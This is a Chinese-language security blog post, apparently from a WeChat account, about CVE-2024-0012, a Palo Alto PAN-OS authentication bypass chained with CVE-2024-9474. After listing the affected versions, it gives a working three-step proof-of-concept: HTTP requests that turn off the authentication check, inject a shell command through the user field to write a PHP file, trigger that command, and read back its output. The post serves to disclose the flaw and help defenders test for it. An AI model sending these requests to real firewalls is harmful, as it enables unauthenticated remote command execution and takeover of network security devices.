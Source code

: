 #  CVE-2024-0012｜Palo Alto Networks PAN-OS身份验证绕过漏洞（POC）   
alicy  信安百科   2024-11-23 10:25  
  
**0x00 前言**  
  
  
派拓网络（Palo Alto Networks）是一家网络安全公司，总部位于美国加利福尼亚州圣克拉拉市。公司的核心产品为“下一代防火墙”（Next-Generation Firewall）平台，提供网络活动的可视化能力，可基于应用（App-ID）、用户（User-ID）与内容（Content-ID）进行网络活动的精细化控制，同时提供基于云的安全服务（GlobalProtect与WildFire）来拓展防火墙的安全性。  
  
  
  
**0x01 漏洞描述**  
  
  
未经身份验证的攻击者通过网络访问管理Web界面，从而获得PAN-OS管理员权限以执行管理操作、篡改配置或利用其他经过身份验证的特权提升漏洞（如CVE-2024-9474）。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-0012：Palo Alto Networks PAN-OS身份验证绕过漏洞  
  
未经身份验证的攻击者通过网络访问管理Web界面，从而获得PAN-OS管理员权限以执行管理操作、篡改配置或利用其他经过身份验证的特权提升漏洞。  
  
  
CVE-2024-9474：Palo Alto Networks PAN-OS权限提升漏洞  
  
Palo Alto Networks PAN-OS软件中存在权限提升漏洞，可能导致具有管理Web 界面访问权限的PAN-OS管理员以root权限对防火墙执行恶意操作。  
  
  
  
**0x03 影响版本**  
  
  
PAN-OS 11.2 < 11.2.4-h1  
  
PAN-OS 11.1 < 11.1.5-h1  
  
PAN-OS 11.0 < 11.0.6-h1  
  
PAN-OS 10.2 < 10.2.12-h2  
  
  
  
**0x04 漏洞详情**  
  
****  
POC：  
  
首先：  
```
POST /php/utils/createRemoteAppwebSession.php/watchTowr.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

user=`echo $(uname -a) > /var/appweb/htdocs/unauth/watchTowr.php`&userRole=superuser&remoteHost=&vsys=vsys1
```  
  
  
然后：  
  
使用第一步获取的PHPSESSID，请求index.php/.js.map触发第一步的请求。  
```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=2qe3kouhjdm8317f6vmueh1m8n;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```  
  
  
最后：  
  
请求第一步中命令写入的文件，验证命令是否执行，并且能访问到执行结果。  
```
GET /unauth/watchTowr.php HTTP/1.1
Host: 192.168.1.227
Cookie: PHPSESSID=fvepfik7vrmvdlkns30rgpn1jb;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```  
  
```
HTTP/1.1 200 OK
Date: Tue, 19 Nov 2024 09:39:17 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 108
Connection: keep-alive
Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS

Linux PA-VM 4.18.0-240.1.1.20.pan.x86_64 #1 SMP Wed Jul 31 20:37:12 PDT 2024 x86_64 x86_64 x86_64 GNU/Linux
```  
  
  
****  
**0x05 参考链接**  
  
  
https://security.paloaltonetworks.com/CVE-2024-0012  
  
  
https://github.com/watchtowrlabs/palo-alto-panos-cve-2024-0012  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-37383｜Roundcube Webmail存储型XSS漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485685&idx=1&sn=838e54bc45cab050c38c37137d553fa1&chksm=cea9612cf9dee83a66a26a8c8fe596cd04d4638dc6581db8b0ed7312fe63559860d92e2a3dbd&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-9264｜Grafana SQL表达式允许远程代码执行（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485671&idx=2&sn=3c50f92d11faad65195774409be07b3b&chksm=cea9613ef9dee828fe54dcf107742dd30993caea07e0477c78d244ca86e048f76a75112725c5&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-9465｜Palo Alto Networks Expedition 未授权SQL注入漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485660&idx=2&sn=7c2fc6ead103e3d620304a476857465e&chksm=cea96105f9dee813d79bb9dc95becfdc8b0f80d294893cd068607339217d429b614999bb91c9&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  

